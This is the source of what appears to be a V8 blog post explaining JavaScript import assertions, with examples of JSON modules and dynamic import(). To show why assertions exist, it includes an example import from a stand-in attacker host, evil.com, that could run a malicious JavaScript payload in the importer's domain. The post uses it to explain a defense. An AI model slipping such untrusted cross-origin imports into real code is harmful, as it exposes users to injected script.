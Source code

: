 ```yaml
---
title: 'Import assertions'
author: 'Dan Clark ([@dandclark1](https://twitter.com/dandclark1))'
avatars:
  - 'dan-clark'
date: 2021-06-14
tags:
  - ECMAScript
description: 'Import assertions allow module import statements to include additional information alongside the module specifier'
tweet: ''
---
```


The new [import assertions](https://github.com/tc39/proposal-import-assertions) feature allows module import statements to include additional information alongside the module specifier. An initial use for the feature is to enable JSON documents to be imported as [JSON modules](https://github.com/tc39/proposal-json-modules):

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
import json from './foo.json' assert { type: 'json' };
console.log(json.answer); // 42
```

## Background: JSON modules and MIME type

A natural question to ask is why a JSON module couldn't simply be imported like this:

```javascript
import json from './foo.json';
```

The web platform checks the MIME type of a module resource for validity prior to executing it, and in theory this MIME type could also be used to determine whether to treat the resource as a JSON or as a JavaScript module.

But, there's a [security issue](https://github.com/w3c/webcomponents/issues/839) with relying on the MIME type alone.

Modules can be imported cross-origin, and a developer might import a JSON module from a third-party source. They might consider this to be basically safe even from an untrusted third-party as long as the JSON is properly sanitized, since importing JSON won't execute script.

However, third-party script can actually execute in this scenario because the third-party server could unexpectedly reply with a JavaScript MIME type and a malicious JavaScript payload, running code in the importer's domain.

```javascript
// Executes JS if evil.com responds with
// application/javascript MIME type!
import data from 'https://evil.com/data.json';
```

File extensions can't be used to make a module type determination because they [aren't a reliable indicator of content type on the web](https://github.com/tc39/proposal-import-assertions/blob/master/content-type-vs-file-extension.md). So instead, we use import assertions to indicate the expected module type and prevent this escalation-of-privilege pitfall.

When a developer wants to import a JSON module, they must use an import assertion to specify that it's supposed to be JSON. The import will fail if the MIME type received from the network doesn't match the expected type:

```javascript
// Fails if evil.com responds with a non-JSON MIME type.
import data from 'https://evil.com/data.json' assert { type: 'json' };
```

## Dynamic `import()`

Import assertions can also be passed to [dynamic `import()`](https://v8.dev/features/dynamic-import#dynamic) with a new second parameter:

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
const jsonModule = await import('./foo.json', {
  assert: { type: 'json' }
});
console.log(jsonModule.default.answer); // 42
```

The JSON content is the default export of the module, so it's referenced through the `default` property on the object returned from `import()`.

## Conclusion

Currently the only specified use of import assertions is for specifying module type. However, the feature was designed to allow arbitrary key/value assertion pairs, so additional uses may be added in the future if it becomes useful to restrain module imports in other ways.

Meanwhile, JSON modules with the new import assertions syntax are available by default in Chromium 91. [CSS module scripts](https://chromestatus.com/feature/5948572598009856) are also coming soon, using the same module-type-assertion syntax.

## Import Assertions support { #support }

<feature-support chrome="91 https://chromestatus.com/feature/5765269513306112"
                 firefox="no"
                 safari="no"
                 nodejs="no"
                 babel="yes https://github.com/babel/babel/pull/12139"></feature-support>
